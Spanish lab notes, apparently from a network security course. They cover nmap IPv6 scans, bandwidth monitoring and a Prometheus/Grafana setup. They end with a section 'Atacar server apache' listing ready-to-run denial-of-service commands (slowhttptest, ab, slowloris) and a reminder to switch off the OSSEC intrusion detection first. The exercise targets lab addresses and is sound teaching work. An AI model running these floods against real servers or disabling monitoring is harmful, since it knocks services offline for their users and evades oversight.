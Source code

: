 1. Realice alguna de las pruebas de port scanning sobre IPv6.

> `nmap -A -6 2002:a0b:3137::1`

>[!Warning] 
Solo la mia?


2. ¿Coinciden los servicios prestados por un sistema con los de IPv4?

> `nmap -A 10.11.49.54` (Si coinciden, 80 y 514)

# K - Informacion Tiempo real

Obtenga información "en tiempo real" sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.

> `iftop -i ens33`

> `vnstat -l -i ens33`

# L - Prometeus, Node exporter y Grafana

[Tuto](https://medium.com/@ismaelaguilera_/instalaci%C3%B3n-y-configuraci%C3%B3n-de-prometheus-grafana-centos8-331c0e43ccc1)

> Encender prometeus `systemctl start prometheus

Prometeus en `10.11.49.55:9090

> Encender node exporter `systemctl start node_exporter

> Encender Grafana `systemctl start grafana-server

Prometeus en `10.11.49.55:3000

>[!Important]
>Poner la escala de tiempo en 5 min, no en dias como esta por defecto (esto se cambia arriba a la derecha)

# N - Atacar server apache

>[!Important]
>EL OSSEC APAGADO PORSI

#### 1. Slowhttptest

> `slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://10.11.49.54 -x 24 -p 3`

#### 2. Apache benchmarking

> `ab -n 10000 -c 10000 http://10.11.49.55/`

#### 3. Slowloris Python

> `python3 slowloris.py 10.11.49.54 -s 500`
